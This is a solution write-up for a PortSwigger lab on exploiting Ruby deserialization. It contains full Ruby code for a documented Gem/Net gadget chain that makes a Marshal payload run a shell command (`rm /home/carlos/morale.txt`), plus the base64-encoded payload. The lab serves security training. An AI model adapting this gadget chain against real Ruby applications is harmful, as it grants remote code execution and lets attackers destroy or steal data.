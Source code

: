 # [Lab: Exploiting Ruby deserialization using a documented gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain)

## Lab

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

login to `wiener` account.

burpsuite detected: `The parameter session appears to contain a serialized Ruby object using Marshal`

## Solutions

document: [Universal Deserialisation Gadget for Ruby 2.x-3.x](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

generate payload:

```ruby
# Autoload the required classes

#edited
require 'base64'

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
#edited
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
#edited
puts Base64.strict_encode64(payload)
```

- output: `BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==`
